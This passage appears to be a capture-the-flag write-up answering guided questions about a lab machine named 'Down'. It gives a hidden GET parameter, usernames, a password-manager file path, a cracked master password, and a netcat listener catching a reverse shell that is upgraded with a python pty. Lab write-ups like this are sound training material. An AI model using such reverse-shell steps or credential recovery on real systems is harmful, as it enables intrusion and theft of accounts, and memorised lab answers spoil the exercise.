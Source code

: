 3. The web application only accepts two protocols in user-provided URLs. One is HTTP. What is the other?
- ....HTTPS

4. What is the username with id 1000 on Down?
- Aleks

5. What is the name of the HTTP GET parameter that changes the site's functionality?
- expertmode

6. What user is the web application running as on Down?
- www-data
- For this you netcat listener, to python shell, to `whoami`
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.234.87] 39576
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@down:/var/www/html$ whoami
whoami
www-data <-- HERE
www-data@down:/var/www/html$ 
```

7. User Flag

8. What is the full path of the file owned by aleks that contains encrypted passwords?
- /home/aleks/.local/share/pswm/pswm

9. What python module does pwsm use to encrypt/decrypt data?
- Cryptocode

10. What is the aleks user's pwsm master password?
- flower

11. Root Flag
